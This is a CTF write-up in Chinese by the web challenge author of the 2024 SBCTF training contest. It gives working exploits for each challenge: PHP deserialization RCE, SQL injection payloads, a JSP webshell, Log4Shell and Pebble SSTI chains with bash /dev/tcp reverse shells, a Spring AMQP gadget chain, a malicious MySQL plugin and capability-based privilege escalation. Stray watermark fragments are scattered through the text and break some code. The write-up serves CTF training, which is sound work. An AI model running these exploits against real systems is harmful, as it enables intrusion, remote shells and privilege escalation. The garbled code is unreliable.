









比赛介绍
2024 SBCTF 是由吉林大学 Spirit 战队和中国矿业大学 BXS 𝒔⑶𝘷ℯ𝘯∙sｉｔe战队合办的网络安全寒假训练赛，
我们鼓励有志于加入 Spirit 未来一同参加比赛的同学参加本次训练赛，
本次比赛难度会每周递增，s𝟯𝒗eｎ•𝘴𝘪𝐭𝐞帮助 0 基础同学入门，也会让有基础的同学有所收获，
我们会根据本次比赛表现择优选拔一些同学加入 Spirit。
比赛时间：2024.1.15 09:00 ~ 2024.2.11 22:00，共4周
比赛概况
本次 2024 SBCTF 大赛吸引了来自吉林大学、中国矿业大学、大连理工大学、东北大学、中山大学、西安电子科技大学、ꜱ³𝘷ｅ𝘯·𝒔ⅈ𝘵e南京理工大学、南京邮电大学、南京航空航天大学、杭州电子科技大学等众多院校的共计百余名选手参与，在激烈的竞争中产生了前 10 名表现优异的选手：

作为本次比赛的 Web 出题人 和 𝘴³𝐯ｅn．𝘀𝘪𝒕e平台运维人 ，非常感谢大家本次前来参加与支持 SBCTF 比赛！
Week1 - php_hacker
简单的 php __wakeup() 魔术方法 反序列化
1. POC
<?php
class Executor {
public $command;
public function __wakeup() {
if (isset($this->command)) {
eval($this->command);
}
}
}
// 创建 Executor 实例
$executor = new Executor();
$executor->command = "system(\"<command>\");"; // PHP 代码
// 序列化对象
$serializedData = serialize($executor);
// Base64 编码
$encodedData = base64_encode($serializedData);
echo $encodedData;
?>Executor 类在被反序列化时会调用 𝘀³𝘷𝘦ｎ·sｉ𝐭ｅclass 的 __wakeup 方法，
从而可以构造 serailized payload 实现 RCE
2. <command>
ls 之后发现 flag 𝘀³𝒗℮𝘯∙ѕｉt𝐞在 /f_l_a_g 里，于是 cat /f_l_a_g 获得 flag
ps：这题直接丢给 ChatGPT 好像能直接帮你做完，不亏是 Week1 难度
Week1 - attack_shiro
根据题目名称提示找到工具 ShiroAttack2
1. 爆破 shiro 密钥
2. 爆破反序列化利用链及回显方式
3. RCE
传说中的 3s 出，s𝟯v𝘦ｎ．𝘴ｉ𝒕e不知道为什么没人做 …
Week1 - ez_sqli
简单的 无wa𝘀⑶v𝐞ｎ·𝘴𝐢𝐭ｅf sql手注
由于前后端数据交互进行了两次 base64 加密和解密
所以没办法用 sqlmap 一把梭
虽然理论上可以搞一个 py tamper 脚本
但那样难道不比直接手𝒔3v𝘦n𝘀3𝘷𝘦𝐧．ꜱ𝘪𝐭℮•𝘴ⅈt℮注复杂 (?)
1. 登录界面（/login）
由于攻击方不知道对方服务器的数据表名，我们需要先获取数据库名：
'union select 1,group_concat(table_name),1 from information_schema.tables where table_schema=database() -- 接着获取目标敏ꜱ³𝘷𝐞𝘯∙𝐬ⅈｔ𝘦感数据的列名
'union select 1,group_concat(column_name),1 from information_schema.columns where table_schema=database() and table_name='secrets' -- 最后获取 flag
'union select 1,group_concat(secret_info),1 from secrets -- 
2. 搜索界面（/search）
同理 两边注入点等𝒔3𝘷𝘦ｎ．ѕ𝘪𝒕℮效 不具体解释
'union select 1,1,group_concat(table_name),1 from information_schema.tables where table_schema=database() -- 'union select 1,1,group_concat(column_name),1 from information_schema.columns where table_schema=database() and table_name='secrets' -- 'union select 1,1,group_concat(secret_info),1 from secrets -- Week1 - ez_cat
Tomcat 后台 通过 war 包上传 jsp shell
suid perm 𝒔³𝘷ｅｎ•𝘴ｉ𝘵ｅ使用 /usr/bin/date 提权 读取 /flag
1. Tomcat 后台 jsp shell 上传

点击 Manager App ，使用 Jerry 提示的密码 admin:admin 进入Tomcat 后台
构造 shell.jsp 如下：
<%!
class U extends ClassLoader {
U(ClassLoader c) {
super(c);
}
public Class g(byte[] b) {
return super.defineClass(b, 0, b.length);
}
}
public byte[] base64Decode(String str) throws Exception {
try {
Class clazz = Class.forName("sun.misc.BASE64Decoder");
return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
} catch (Exception e) {
Class clazz = Class.forName("java.util.Base64");
Object decoder = clazz.getMethod("getDecoder").invoke(null);
return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
}
}
%>
<%
String cls = request.getParameter("passwd");
if (cls != null) {
new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
}
%>打包成 shell.war
jar -cvf shell.war shell.jsp上传至 Tomcat 后台
使用 中国蚁剑 ѕ3ⅴ𝘦𝒏∙𝐬i𝘵e连接 shell：
2. suid perm 使用 date 提权
find / -user root -perm -4000 -print 2>/dev/null
date -f /flag.txt根据回显得到 flag
Week1 - java_signin
原题来自 NCTF 2023 - logging
https://exp10it.𝘴⑶𝒗𝐞𝘯∙sｉtｅio/2023/12/nctf-𝐬³𝒗ℯ𝘯․𝐬ｉ𝒕𝘦2023-web-official-writeup/#logging
考点是在 log4j2 s⑶𝘷𝘦𝘯•sⅈ𝘵𝘦默认配置下触发 CVE-2021-44228 RCE
使用工具：
Server s³𝘷ℯ𝒏•𝐬𝐢t𝘦Bash run：
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,x}(x: 'bash -i >& /dev/tcp/ip/port 0>&1' encoded with base64)|{base64,-d}|{bash,-i}" -A <server_ip>:<listen_port>在 / 处的 Request 的 𝘀𝟯𝐯ｅ𝘯․𝒔i𝒕ｅAccept Header 中注入 jndi，触发报错日志记录，
${jndi:rmi://<server_ip>:<rmi_port>/<ramdom_rmi_route>}log4j2 远程加载 Class 𝘀⑶𝒗ℯｎ•𝘀ｉｔ𝐞类 反弹 Shell 获得 flag
Week2 - ez_spring
本题最早可以追溯到 2022 UIUCTF 𝒔³𝘷e𝒏•𝘀𝘪𝒕e- web/spoink
后在 2023 第七届强网杯中被用作强网先锋题（签到题）
本来是拿来当作 Week2 Web 的签到题的，但没想到解数这么少…
由于强网杯没有也不会对签到题放出 Hint，因此本题也没有放 Hint
考点是 CVE-2022-ѕ³vℯ𝐧․𝐬ⅈte37767: Pebble 3.1.5 RCE
和强网杯原题一样，在放出的附件中没有给出 waf 内容
在远程靶机中屏蔽了一些类关键词，𝘀𝟯𝐯𝐞𝐧·sｉ𝘵e可以用字符串拼接绕过
public class StringFilter {
public static boolean filter(String context) {
return (context.contains("org.springframework.context.support.ClassPathXmlApplicationContext") || context
.contains("java.beans.Beans") || context
.contains("org.springframework.boot.autoconfigure.internalCachingMetadataReaderFactory") || context
.contains("jacksonObjectMapper"));
}
}1.pebble
{% set bypass1 = "org.springframework.boot.autoconfigure." %}
{% set bypass2 = "internalCachingMetadataReaderFactory" %}
{% set bypass3 = "java.beans." %}
{% set bypass4 = "Beans" %}
{% set bypass5 = "jackson" %}
{% set bypass6 = "ObjectMapper" %}
{% set bypass7 = "org.springframework.context.support." %}
{% set bypass8 = "ClassPathXmlApplicationContext" %}
{% set y = beans.get(bypass1+bypass2).resourceLoader.classLoader.loadClass(bypass3+bypass4) %}
{% set yy = beans.get(bypass5+bypass6).readValue("{}", y) %}
{% set yyy = yy.instantiate(null,bypass7+bypass8) %}
{{ yyy.setConfigLocation("1.xml") }}
{{ yyy.refresh() }}1.xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
<constructor-arg >
<list>
<value>bash</value>
<value>-c</value>
<value>echo x|base64 -d|bash -i</value>
<!-- x: "bash -i >& /dev/tcp/ip/port 0>&1" encoded with base64 -->
</list>
</constructor-arg>
</bean>
</beans>通过 /uploadFile 路由上传 1.𝐬𝟯𝒗𝘦𝐧·s𝘪𝒕ｅpebble，再通过 / 路由访问上传的 template 模板，远程加载 1.xml 实现 RCE，最后反弹 Shell 获得 flag
Week3 - ez_cfs
网络拓扑

1. ez_cfs_part1
出题思路来自：
https://exp10it.io/2023/10/spring-amqp-反序列化漏洞-s³ⅴℯｎ．sⅈ𝒕𝘦cve-2023-34050-分析/
CVE-2023-34050：𝘴³𝐯ｅ𝒏∙𝘴ｉ𝒕𝐞Spring AMQP 反序列化漏洞
根据 Spring 官方通告的描述, 𝘀𝟯𝒗𝘦ｎ․ꜱｉt𝐞满足以下条件时则存在漏洞
- 使用 SimpleMessageConverter 𝒔3v℮𝐧․𝐬𝐢𝐭𝐞或 SerializerMessageConverter (默认为 SimpleMessageConverter)
- 开发者没有配置 ѕ3v𝘦n․ꜱi𝘵ｅallowed list patterns
- 攻击者可以向 RabbitMQ 服务器的某个 s³𝘷𝘦𝐧․ѕi𝘵℮Queue 内写入 Message 𝒔³ⅴｅ𝘯.𝐬ｉ𝒕e(RabbitMQ 未授权/弱口令/可配置 RabbitMQ 连接参数)
- 必须得有对应的 Listener 来处理接收到的 𝘴3𝐯ℯ𝐧․ѕ𝐢𝐭eMessage (使用 @RabbitListener 或 @RabbitHandler 注解)
首先是爆破 RabbitMQ 服务器的弱口令，简单尝试后可以得出是 Test:654321
然后使用 Jackson 𝐬⑶𝐯eｎ·𝘀𝐢𝒕ｅ原生反序列化 + TemplatesImpl
1.1 Jackson 原生反序列化链
Gadgets.java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
public class Gadgets {
public static TemplatesImpl createTemplatesImpl(String command) throws Exception {
TemplatesImpl templatesImpl = new TemplatesImpl();
ClassPool pool = ClassPool.getDefault();
String body = String.format("{java.lang.Runtime.getRuntime().exec(\"%s\"); throw new org.springframework.amqp.AmqpRejectAndDontRequeueException(\"err\");}", command);
// 利用 Javaassist 动态创建 TemplatesImpl 恶意类
CtClass clazz = pool.makeClass("TemplatesEvilClass");
// 设置 Super Class 为 AbstractTranslet
CtClass superClazz =pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
clazz.setSuperclass(superClazz);
// 创建无参 Constructor, 写入 Runtime.exec
CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
constructor.setBody(body);
clazz.addConstructor(constructor);
// 将 Runtime.exec 直接写入 static 代码块
// clazz.makeClassInitializer().setBody(body);
Reflections.setFieldValue(templatesImpl, "_name", "Hello");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][]{clazz.toBytecode()});
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
return templatesImpl;
}
public static byte[] getByteCode(Class clazz) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass c = pool.get(clazz.getName());
return c.toBytecode();
}
}Reflection𝒔³𝘷ℯn․si𝒕𝐞s.java
import java.lang.reflect.Field;
import java.lang.reflect.Method;
public class Reflections {
public static void setFieldValue(Object obj, String name, Object val) throws Exception{
Field f = obj.getClass().getDeclaredField(name);
f.setAccessible(true);
f.set(obj, val);
}
public static Object invokeMethod(Object obj, String name, Class[] parameterTypes, Object[] args) throws Exception{
Method m = obj.getClass().getDeclaredMethod(name, parameterTypes);
m.setAccessible(true);
return m.invoke(obj, args);
}
}MessageControꜱ⑶ⅴｅn․ѕⅈ𝒕ｅller.java
public void sendPoc (String... args) throws Exception {
TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl("cmd");
AdvisedSupport as = new AdvisedSupport();
as.setTarget(templatesImpl);
Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getDeclaredConstructor(AdvisedSupport.class);
constructor.setAccessible(true);
InvocationHandler jdkDynamicAopProxyHandler = (InvocationHandler) constructor.newInstance(as);
Templates templatesProxy = (Templates) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, jdkDynamicAopProxyHandler);
POJONode pojoNode = new POJONode(templatesProxy);
BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
Reflections.setFieldValue(poc, "val", pojoNode);
messageSenderService.sendMessage(poc);
}1.2 注意点：
1.2.1 删除 BaseJsonNode.writeReplace
使用原本的 BaseJsonNode 𝒔³𝘷𝘦ｎ·𝒔𝐢𝘵𝐞的话，在发送消息序列化的时候会调用 BaseJsonNode.writeReplace() ，最后也会调用 TemplatesImpl.getOutputProperties() 触发命令执行
但是这里触发后会报错 NullPointerException ，导致消息传递中断
删除掉 BaseJsonNode.writeReplace() 就调用的是 UnmodifiableRandomAccessList.writeReplace() ，消息能继续传递
1.2.2 抛出 AmqpRejectAndDontRequeueException 异常
因为在执行 Jackson 链时必然会出现报错，导致消息处理不成功，𝘴3𝐯𝘦𝐧∙sｉ𝒕e就会让消息重新排队处理，然后又报错，陷入死循环。
抛出这个异常可以避免无限次s𝟯vｅ𝐧·ꜱⅈ𝒕𝐞地重试失败的消息，节约系统资源。
1.2.3 消息未处理，删除队列
由于消息处理失败，还是会留存在队中，处于 unacked 状态，当测试程序再次启动时，𝐬³𝒗en∙ꜱｉ𝘵𝐞就会优先处理队列中留存消息。
所以在复现过程中如果队列中还留存有上一次测试的消息，𝒔𝟯𝒗ｅ𝒏∙ꜱ𝐢𝐭ｅ可以把队列删除重新创建。
2. ez_cfs_part2
比较典型的内网横向渗透
2.1 探查内网环境
cat /etc/hosts可以看出 server 处于两个内网 Network 中，使用 Nmap 对相应子段进行扫描，发现存在一台 MySQL 容器
如果直接在反弹的 Shell 上调用 mysql-𝐬𝟯𝘷ｅ𝒏·𝐬ｉt℮client 是无法正常输入密码和连接的，
这是因为反弹的 Shell 一般没有分配 tty
2.2 反弹 tty
使用 socat 𝘀⑶ⅴ℮ｎ.𝐬ⅈ𝐭ｅ工具可以反弹 tty
socat_l𝐬𝟯ⅴe𝘯·ꜱｉtｅisten.sh
socat file:`tty`,raw,echo=0 tcp-listen:<listen_port>socat_shꜱ⑶v𝘦ｎ∙𝘀ｉ𝒕𝘦ell.sh
socat tcp:<server>:<listen_port> exec:'bash -li',pty,stderr,setsid,sigint,sane反弹 tty ѕ³𝒗℮𝐧•ѕｉ𝘵℮后即可正常连接 MySQL
2.3 连接 MySQL
mysql -h <mysql_server_ip> -u root -p简单尝试发现口令为 root:root ，
登录后即可在 ctf 𝘴³v𝘦𝒏·sｉ𝘵ｅ数据库的 flag 表中获得 flag_2
PS：由于靶机环境可以联网，𝘴𝟯ⅴ𝐞𝒏•𝐬𝘪𝘵e本题也可以使用其他可用于连接 MySQL 且无需 tty 即可进行交互的工具完成
3. ez_cfs_part3
原题是 2023 N1CTF lolita 𝘴𝟯𝒗e𝘯·𝘀i𝘵℮出的 ez_maria
本题使用了 ProxySQL 替代了原题的 PHP preg_match 作为 waf ，其本质和解题过程还是一样的
简单尝试后发现 mysql 过滤了一部分关键词，s3ⅴen․s𝐢𝒕𝘦这里使用加载 shell 插件来反弹 shell
3.1 恢复 skip-grant-tables
恢复 mysql 的表，因为使用 skip-grant-tables 启动，缺失 mysql 表，无法使用插件
mysql > CREATE DATABASE IF NOT EXISTS mysql;
mysql > use mysql;
mysql > CREATE TABLE IF NOT EXISTS plugin ( name varchar(64) DEFAULT '' NOT NULL, dl varchar(128) DEFAULT '' NOT NULL, PRIMARY KEY (name) ) engine=Aria transactional=1 CHARACTER SET utf8mb3 COLLATE utf8mb3_general_ci comment='MySQL plugins';3.2 MySQL Plugin RCE
编写插件
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
void lshell(){
system("bash -c 'bash -i >& /dev/tcp/ip/port 0>&1 &'");
}
class LIN {
public:
LIN(){
lshell();
}
};
LIN lin;
LIN* _mysql_plugin_interface_version_ = &lin;g++ lin.cpp -shared -fPIC -o lin.so将编译出来的 so 文件用 ѕ³vｅｎ•ꜱ𝐢ｔ𝐞dumpfile 写到 /usr/lib/mysql/plugin/ 目录
f = open("lin.so", 'rb')
sql = "select unhex('" + ''.join(['%02X' % b for b in bytes(f.read())]) + "') into dumpfile '/usr/lib/mysql/plugin/lin.so';"
f2 = open("payload.sql", 'w')
f2.write(sql)将 payload.sql 𝘴𝟯vℯ𝘯․s𝘪𝒕e上传至 client 端并运行
mysql > source payload.sql;最后安装插件反𝘀3ⅴℯ𝘯·si𝐭𝐞弹shell
mysql > INSTALL PLUGIN plugin_name SONAME 'lin.so'4. ez_cfs_part4
可以看到 /flag_4 没有权限读取，找 suid 和 cap
find / -user root -perm -4000 -print 2>/dev/null
getcap -r / 2>/dev/null/usr/bin/mariadb cap_setfcap=ep可以看到 /usr/bin/mariadb 有 cap_setfcap 权限
也就是我们能给其他文件设置 cap
给 marias⑶𝒗ｅ𝐧∙𝘴𝘪𝒕𝘦db 写个插件
#include <stdlib.h>
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/capability.h>
void lshell(){
cap_t caps = cap_from_text("cap_dac_override=eip");
cap_set_file("/bin/cat", caps);
printf("setcap finished\n");
}
class LIN {
public:
LIN(){
lshell();
}
};
LIN _mysql_client_plugin_declaration_;g++ cap.cpp -shared -fPIC -o cap.so -lcap2将编译出来的文件传到靶机,
然后加载这个 so 让 /bin/cat 获取 cap_dac_override（忽略文件权限）的特权
mariadb --plugin-dir=. --default-auth=cap
cat /flag_4